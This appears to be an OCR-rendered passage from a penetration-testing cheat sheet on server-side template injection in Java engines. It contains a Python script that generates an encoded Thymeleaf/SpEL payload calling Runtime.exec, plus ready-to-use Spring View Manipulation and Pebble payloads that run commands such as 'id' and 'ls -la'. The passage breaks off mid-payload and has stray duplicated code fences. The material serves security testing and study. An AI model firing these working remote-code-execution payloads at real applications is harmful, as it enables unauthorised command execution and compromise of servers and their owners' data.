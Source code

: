 ```
# Usage: python3 gen.py "id"

from sys import argv

cmd = list(argv[1].strip())
print("Payload: ", cmd , end="\n\n")
converted = [ord(c) for c in cmd]
base_payload = '*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec'
end_payload = '.getInputStream())}'

count = 1
for i in converted:
    if count == 1:
        base_payload += f"(T(java.lang.Character).toString({i}).concat"
        count += 1
    elif count == len(converted):
        base_payload += f"(T(java.lang.Character).toString({i})))"
    else:
        base_payload += f"(T(java.lang.Character).toString({i})).concat"
        count += 1

print(base_payload + end_payload)
```
```
**More Information**

- [[https://javamana.com/2021/11/20211121071046977B.html|Thymleaf SSTI]]
- [[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#java---retrieve-etcpasswd|Payloads all the things]]

### Spring View Manipulation (Java)

```java
__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x
__${T(java.lang.Runtime).getRuntime().exec("touch executed")}__::.x
```
```
- [[https://github.com/veracode-research/spring-view-manipulation|https://github.com/veracode-research/spring-view-manipulation]]

[[el-expression-language.md]]

### Pebble (Java)

- `{{ someString.toUPPERCASE() }}`

Old version of Pebble ( < version 3.0.9):

```java
{{ variable.getClass().forName('java.lang.Runtime').getRuntime().exec('ls -la') }}
```
```
New version of Pebble :

```java
{% raw %}
{% set cmd = 'id' %}
{% endraw %}




{% set bytes = (1).TYPE
     .forName('java.lang.Runtime')
```